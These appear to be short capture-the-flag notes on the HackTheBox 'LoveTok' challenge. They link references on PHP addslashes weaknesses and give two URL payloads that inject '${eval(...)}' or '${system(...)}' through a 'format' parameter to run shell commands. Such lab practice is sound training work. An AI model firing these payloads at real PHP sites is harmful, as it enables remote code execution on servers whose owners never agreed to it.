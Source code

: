 # HackTheBox LoveTok



https://www.php.net/manual/en/function.addslashes.php


exploit search: 
php addslashes exploit
https://security.stackexchange.com/questions/263114/php-is-addslashes-in-eval-really-that-unsafe


/?format=${eval($_GET[1])}&1=system("id");

/?format=${system($_GET[1])}&1=id

